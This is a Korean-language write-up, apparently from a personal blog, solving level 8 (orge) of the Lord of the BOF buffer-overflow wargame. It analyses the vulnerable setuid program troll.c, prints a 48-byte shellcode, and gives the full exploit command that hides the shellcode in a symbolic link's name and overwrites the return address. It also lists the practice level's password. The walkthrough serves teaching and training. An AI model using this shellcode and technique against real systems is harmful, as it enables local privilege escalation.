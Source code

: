 ```yaml
---
title: BOF/ LOB-level8(orge)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식이다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 8(orge)
**ID : orge**  
**PASSWD : timewalker**  

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level8/1.PNG)  
사용자 troll의 권한의 troll파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 troll의 권한으로 파일을 실행할 수 있다.**  
**troll파일이 쉘을 실행시키도록 한다면 사용자 troll의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
{% endhighlight %}  
**troll.c**

### 소스분석  
1. argc가 2가 아닌경우 "ergv must be two!"를 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개의 인자를 전달하여야 한다.**  
**[LOB(level5)](https://limjunho.github.io/2019/11/03/LOB-level5(orc).html#lob-level-5orc)와 같이 argv[2]를 이용한 공격 불가**  
2. 환경변수를 memset으로 초기화  
**환경변수를 이용한 공격 불가**  
3. argv[1][47]의 값이 \xbf가 아닌경우 "stack is still your friend" 출력 후 프로그램 종료  
**RTL기법 사용 불가 What is RTL? - [LOB(level13)](https://limjunho.github.io/2020/03/14/LOB-level13(darkknight).html)**  
5. argv[1]의 길이가 48보다 큰 경우 "argument is too long!"을 출력 후 프로그램 종료  
**RET뒤에 NOP과 ShellCode를 삽입하는 공격 불가**  
6. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
7. memset으로 buffer를 모두 0으로 초기화  
**buffer에 쉘코드를 전달하고 buffer의 주소를 BOF시키는 공격 불가**  
8. memset으로 argv[1]을 모두 0으로 초기화  
**[LOB(level6)](https://limjunho.github.io/2019/11/03/LOB-level6(wolfman).html)와 같이 argv[1]의 주소를 이용한 공격 불가**

### Solution  
**[LOB(level6)](https://limjunho.github.io/2019/11/03/LOB-level6(wolfman).html)와 매우 유사한 풀이이다.**  
**단, argv[1]을 사용할 수 없기 때문에 argv[0] 즉 파일명에 쉘코드를 전달하고 argv[0]의 주소를 buffer over-flow공격**  

**심벌릭링크?**  
링크를 연결하여 원본 파일을 직접 사용하는 것과 같은 효과를 내는 링크이다. 윈도우의 바로가기와 비슷한 개념  

#### level8에서 사용한 쉘코드  
**\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81**  
**48Byte**  
이번 문제에서 사용하는 쉘코드는 전과 달리 2f가 없도록 작성되었다. -> \x2f는 ascii 코드로 / 를 뜻한다.  
**Linux에서 파일명에 /는 경로를 의미하기 때문에 shellcode에 2f가 있다면 정상적인 공격이 어려움**  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 기존 troll.c를 복사하여 argv[0]의 주소를 출력하는 코드를 추가.   
**buffer와 argv[1]을 초기화하고 main에 더 이상의 인자를 주지 못하지만 argv[0]은 초기화하지 않기 때문에 이를 이용**   

{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
        printf("%p\n", argv[0]);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
{% endhighlight %}  
**troll.c를 복사하여 소스 추가 -> printf("%p\n", argv[0]);**  


![그림2](/assets/LOB/level8/2.PNG)  
위의 방법으로 argv[0]의 주소를 획득.  
argv[0]의 주소 -> 0xbffffbcd  

**파일명의 길이가 원본 실행파일(troll)의 심벌릭링크와 길이가 같아야 한다.**  
argv[0]의 길이가 다르면 원본파일의 argv[0]의 주소와 다른 주소를 얻을 수 있기 때문.  


![그림3](/assets/LOB/level8/3.PNG)  
set-uid가 걸린 원본파일에 쉘코드를 이름으로 심벌릭링크 등록  

### Attack  

argv[0]의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./troll + [dummy] + [argv(0)주소]**의 형태로 공격.  
**이 때 dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 44Byte여야 한다.**  
**또한 RET에 덮을 argv[0]의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림4](/assets/LOB/level8/4.PNG)  
공격 성공.   

**페이로드**  
```bash
$ ./`python -c "print '\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81'"` `python -c "print 'A'*44 + '\xcd\xfb\xff\xbf'"`
```
